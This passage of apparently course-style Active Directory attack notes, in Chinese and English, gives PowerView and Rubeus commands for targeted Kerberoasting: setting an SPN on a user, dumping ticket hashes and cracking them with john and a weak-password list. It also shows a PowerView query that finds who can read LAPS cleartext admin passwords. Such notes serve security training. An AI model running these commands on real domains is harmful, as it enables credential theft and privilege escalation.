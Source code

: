 ## 枚举用户是否已经有SPN
使用powerview
```
Get-DomainUser -Identity support1user | select serviceprincipalname
```
使用ActiveDirectory module
```
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

## 为指定用户设置SPN
使用powerview
```
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX X'}
```
使用ActiveDirectory module
```
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX X'}
```

## Kerberoast the user
```
Rubeus.exe kerberoast /outfile:targetedhashes.txt

john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```


# LAPS

LAPS (Local Administrator Password Solution) provides centralized storage of local users passwords in AD with periodic randomizing.（LAPS（本地管理员密码解决方案）通过定期随机化在 AD 中提供本地用户密码的集中存储。）

1. "…it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers."
2. Storage in clear text, transmission is encrypted (Kerberos).（以明文存储，传输是加密的（Kerberos））
3. Configurable using GPO.（可使用GPO进行配置）
4. Access control for reading clear text passwords using ACLs. Only Domain Admins and explicitly allowed users can read the passwords.（使用ACL对读取明文密码进行访问控制。只有域名管理员和明确允许的用户可以读取密码。）


## 可以使用 LAPS的计算机
在下面路径可以找到 AdmPwd.dll这个文件
```
C:\Program Files\LAPS\CSE\directory
```

## 查找哪些用户可以使用LAPS读取明文密码

使用PowerView
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```
